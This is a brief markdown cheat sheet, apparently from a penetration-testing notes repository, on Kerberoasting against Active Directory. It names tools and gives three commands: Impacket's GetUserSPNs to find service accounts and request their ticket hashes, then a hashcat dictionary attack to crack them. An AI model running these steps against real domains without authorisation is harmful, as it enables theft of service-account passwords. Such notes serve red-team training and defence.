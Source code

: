 ### Allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.

### Tools: Bloodhound, Invoke-Kerberoast.ps1, Kekeo, Rubeus, Hashcat

## Steps:

#### 1) python3 Impacket-GetUserSPNs.py -dc-ip DC_IP DOMAIN/USER

#### Insert Password:

#### 2) python3 Impacket-GetUserSPNs.py -dc-ip DC_IP DOMAIN/USER -request-user USER FOUND ON STEP 1

#### 3) hashcat -a 0 -m 13100 SPN.HASH /path/to/wordlist.txt
